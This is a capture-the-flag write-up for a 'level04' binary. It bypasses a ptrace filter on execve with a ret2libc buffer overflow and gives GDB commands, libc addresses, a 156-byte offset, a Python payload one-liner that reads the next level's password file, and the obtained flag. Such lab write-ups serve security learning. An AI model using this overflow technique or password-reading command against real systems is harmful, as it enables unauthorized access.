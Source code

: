 # level04

The executable forks into a child process, to which we can feed a shellcode ; the issue is, the parent process watches the child with `ptrace`, and if it returns `11` - which is the syscall table number associated to `execve` - it kills it.

We'll have to circumvent this by using a different exploit.

## **The exploit**

We'll do a `ret2libc`, which uses lib functions and strings already present in the executable.

First, we've got to find the address of the `system` function. In GDB, we run :

```
print system
```

We get the address : `0xf7e6aed0`

Next, still in GDB, we're looking for an occurrence of `"/bin/sh"` :

```
find __libc_start_main,+99999999,"/bin/sh"
```

We find one at `0xf7f897ec`

Now, we need to replace `eip` with `system` and `eip+8` with `/bin/sh`, using the child process' `gets`.

We use GDB and find the offset of `eip`, which is `156`. We're reading to try a `ret2libc`.

## **The command**

We run the following command :

```
( python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7")' ; echo "cat /home/users/level05/.pass" ) | ./level04
```

## **The flag**

It works ! We get the flag for `level04` :

```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```